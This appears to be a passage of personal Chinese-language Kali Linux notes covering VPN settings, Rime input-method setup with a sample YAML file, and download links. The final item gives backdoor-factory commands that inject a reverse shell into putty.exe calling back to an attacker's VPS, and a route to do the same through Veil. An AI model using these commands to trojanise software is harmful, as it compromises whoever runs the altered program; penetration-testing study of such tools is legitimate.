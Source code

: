 90.kali2.0使用pptp vpn时,需要在高级选项里勾选使用点到点加密,如果还不行则选择最安全的加密(128位),否则不能成功连接,另外,用不了l2tp vpn,不知系统哪里的问题

91.https://ghostbin.com/  :-> paste? a site has article like:https://ghostbin.com/paste/6kho7?luicode=10000359
                                                             from:
                                                             http://drops.wooyun.org/pentesting/15117

92.kali2安装rime输入法:
https://www.goenitz.xyz/post/ubuntu-install-fcitx-rime-and-wubi
       https://wu.nerd.moe/?p=1752
       /usr/bin/rime_dict_manager自带词库管理工具
            kali_local:/root/.config/fcitx/rime/wubi86.userdb.kct
            windows:%appdata%\rime\wubi86.userdb.kct
       http://www.jianshu.com/p/cffc0ea094a7
       https://github.com/rime/home/wiki/CustomizationGuide
       重新部署使配置生效:--->    rm ~/.config/ibus/rime/default.yaml; ibus-daemon -drx

       pidof fcitx | xargs kill;pidof sogou-qimpanel | xargs kill;nohup fcitx  1>/dev/null 2>/dev/null &;nohup sogou-qimpanel  1>/dev/null 2>/dev/null &
       emoji对应表:https://rimeime.googlecode.com/svn/trunk/artworks/schema/emoji-chart.png
       新建default.custom.yaml,内容为patch:...,意思是要覆盖default.yaml中配置,其它如wubi_pinyin.yaml等对应wubi_pinyin.custom.yaml
       eg.my default.custom.yaml file:
       ---------------------start------------------------
            patch:
                menu/page_size: 9
                schema_list:
                  - schema: luna_pinyin
                  - schema: luna_pinyin_fluency
                  - schema: luna_pinyin_simp
                  - schema: wubi_pinyin
                  - schema: wubi86
                  - schema: emoji
                ascii_composer:
                  good_old_caps_lock: true
                  switch_key:
                    Caps_Lock: clear
                    Control_L: noop
                    Control_R: commit_text
                    Eisu_toggle: clear
                    Shift_L: commit_code
                    Shift_R: inline_ascii
      --------------------end----------------------------
windows中rime词库文件位置:%APPDATA%\rime
深蓝词库转换工具:
    https://github.com/studyzy/imewlconverter
    http://www.cnblogs.com/studyzy/archive/2013/01/10/2855403.html

93.windows download:https://www.microsoft.com/en-us/search/result.aspx?q=windows+xp+professional+x64+edition&form=MSHOME

94.backdoor-factory用法:
    1.单独的backdoor-factory:
        backdoor-factory -f /root/Desktop/putty.exe -S (check if the putty.exe is support for backdoor-factory)
        backdoor-factory -f /root/Desktop/putty.exe -s show (show usable kinds of reverse shell supported)
        backdoor-factory -f /root/Desktop/putty.exe -s ...(... is a kind of shell from former 'show' command) -H vps's ip -P 200
    2.backdoor-factory in veil:-->veil-->list-->number of native/backdoor-factory-->options-->set the options
